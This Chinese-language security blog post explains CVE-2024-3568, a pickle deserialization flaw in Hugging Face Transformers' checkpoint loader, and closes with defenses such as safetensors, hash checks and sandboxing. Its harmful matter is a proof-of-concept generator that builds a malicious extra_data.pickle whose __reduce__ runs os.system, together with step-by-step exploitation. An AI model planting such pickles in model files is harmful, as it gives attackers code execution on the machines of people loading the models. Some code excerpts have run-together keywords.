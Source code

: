 #  大模型的RCE漏洞   
原创 sule01u  不懂安全   2024-12-05 00:30  
  
# 大模型的反序列化导致的RCE漏洞  
> 话说最近字节实习生通过编写、篡改代码等形式恶意攻击团队研究项目模型训练任务的事闹的沸沸扬扬，那气氛都到这了，我们来聊聊大模型的rce漏洞吧  
  
## 引言  
  
这可以从今年的CVE-2024-3568开始聊聊， CVE-2024-3568是Huggingface的Transformers库中存在的一个反序列化漏洞，影响版本为4.38.0及之前的版本。该漏洞源于TFPreTrainedModel类的load_repo_checkpoint()函数在加载检查点时，使用了Python的pickle模块反序列化不受信任的数据，导致攻击者可以通过构造恶意的序列化有效载荷，实现任意代码执行。  
  
**所以呢**  
  
展开人话就是：攻击者可以创建一个包含恶意extra_data.pickle文件的检查点目录。当受害者在模型训练过程中加载该检查点时，pickle.load()函数会反序列化extra_data.pickle文件，触发其中的恶意代码，从而在受害者的机器上执行任意指令。  
  
**我不信，你演示一下**  
  
OK, 来梳理一遍漏洞出发流程 ⬇️  
## CVE-2024-3568 漏洞触发流程  
  
**功能背景：模型检查点加载**  
- • 在机器学习中，检查点Checkpoint用于保存模型训练的中间状态，以便随时恢复训练或进行推理。  
  
- • Transformers 库的 TFPreTrainedModel 类提供了 load_repo_checkpoint() 方法，用于从一个目录中加载检查点数据。  
  
- • 该方法使用 Python 的 pickle 模块来反序列化检查点的附加数据文件 extra_data.pickle。  
  
**核心问题：直接反序列化用户提供的文件**  
- • pickle 是 Python 的一个用于序列化和反序列化 Python 对象, pickle 的反序列化过程会执行序列化对象中的任意代码。  
  
- • 在 load_repo_checkpoint() 中，直接使用了 pickle.load() 方法来加载用户提供的 extra_data.pickle 文件。  
  
- • 如果攻击者能够控制检查点目录的内容，就可以将恶意代码嵌入到 extra_data.pickle 文件中造成反序列化。  
  
**示例代码如下**  
- • 模拟受害者加载恶意的checkpoint  
  
```
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 加载一个正常的模型
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的路径
model.load_repo_checkpoint('rce-checkpoint')
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlXjfQHYK6YlZsG25iaibADeqwm09dXEfgD5ZXEsDGhBKcQRSib8vfdhfgBF8MUibFvYneRiaRhj3WAOibRw/640?wx_fmt=png&from=appmsg "null")  
- • 我们继续跟进上面的load_repo_checkpoint函数  
  
```
def load_repo_checkpoint(self, repo_path_or_name):
ifgetattr(self,"optimizer",None)isNone:
raiseRuntimeError(
"Checkpoint loading failed as no optimizer is attached to the model. "
"This is most likely caused by the model not being compiled."
)
if os.path.isdir(repo_path_or_name):
        local_dir = repo_path_or_name
else:
        repo_files = list_repo_files(repo_path_or_name)
for file in("checkpoint/weights.h5","checkpoint/extra_data.pickle"):
if file notin repo_files:
raiseFileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
        repo =Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
        local_dir = repo.local_dir

# 确保仓库中确实存在检查点
    checkpoint_dir = os.path.join(local_dir,"checkpoint")
    weights_file = os.path.join(checkpoint_dir,"weights.h5")
ifnot os.path.isfile(weights_file):
raiseFileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
    extra_data_file = os.path.join(checkpoint_dir,"extra_data.pickle")
ifnot os.path.isfile(extra_data_file):
raiseFileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")

# ----重点在这里：加载模型的权重和优化器状态-----
    self.load_weights(weights_file)
withopen(extra_data_file,"rb")as f:
        extra_data = pickle.load(f)# ！！！pickle.load()
    self.optimizer.set_weights(extra_data["optimizer_state"])

return{"epoch": extra_data["epoch"]}
```  
  
现在真相大白了，读取了extra_data.pickle文件并反序列化  
  
那我们下一个问题是：extra_data.pickle文件里面是啥？  
  
让我们看看extra_data.pickle文件是怎么生成的 ⬇️  
```
def generate_extra_data_pickle(filepath, command):
classCommandExecute:
def__reduce__(self):
return os.system,(command,)

    poc =CommandExecute()
withopen(filepath,'wb')as fp:
        pickle.dump(poc, fp)
```  
  
根据poc代码可知：在 pickle.load(f) 反序列化时，__reduce__ 会被调用，return os.system, (command,) 会导致指定的命令 command 被执行。（反弹shell拿权限啦 - _ -  
  
**所以顺下来，漏洞利用过程就是：**  
1. 1. 攻击者使用上面的 generate_extra_data_pickle  函数生成包含恶意命令的extra_data.pickle 文件。  
  
1. 2. 将该文件放入目标仓库或本地文件路径。  
  
1. 3. 受害者运行 load_repo_checkpoint 并加载恶意文件。  
  
1. 4. pickle.load(f) 执行反序列化，触发 __reduce__，执行其中的恶意命令。  
  
## 扩展总结  
  
以 transformers 库为例，已经发现了多起相关的安全漏洞：  
- • CVE-2024-3568：该漏洞影响 transformers 库版本低于 4.38.0，主要利用 TFAutoModel 的反序列化过程触发恶意代码执行。  
  
- • CVE-2023-7018：影响版本低于 4.36.0 的 transformers 库，tokenizer 解析存在类似的反序列化漏洞。  
  
- • CVE-2023-6730：涉及 RagRetriever.from_pretrained 方法，影响版本同样是低于 4.36.0。  
  
这些漏洞的存在，意味着**如果攻击者能够控制模型文件内容 并且 模型文件被受害者使用了**，便可通过反序列化行为，在模型加载的瞬间就可以触发恶意代码执行。  
  
不过大模型时代，自己从头训模型对大多数人来说是不现实的，重点可能需要放在加载预训练权重的时候怎么避免**权重文件被植入恶意代码的风险上**  
## 如何防御 -> safetensors  
  
safetensors 是 Hugging Face 推出的一个专门存储模型权重的文件格式，主要目标是**安全性**和**高效性**。  
  
**为什么安全：**  
- • **只存储张量数据**：safetensors 仅存储模型的张量（weights），不包含任何其他 Python 对象。  
  
- • **无需解释器解析**：文件的解析完全由 Rust 或其他安全语言实现，而非依赖 Python 的动态解释器（如 pickle）。  
  
- • **防止任意代码执行**：由于文件格式不支持代码对象，攻击者无法在文件中注入恶意代码。  
  
**其他措施：**  
- • 加载前验证文件完整性（如哈希校验或签名验证）。  
  
- • 避免加载未验证来源的模型文件。  
  
- • 限制加载模型的运行环境（如沙盒或虚拟环境）  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/apmYTPAKhlXjfQHYK6YlZsG25iaibADeqwfXbGtBib3Q6NnzdDDjw1cMBY1HAibcc0yFnO0gcTN36eFBBKvOUlKydw/640?wx_fmt=gif&from=appmsg "")  
  
  
**欢迎关注不懂安全⬇️**  
  
  
  
  
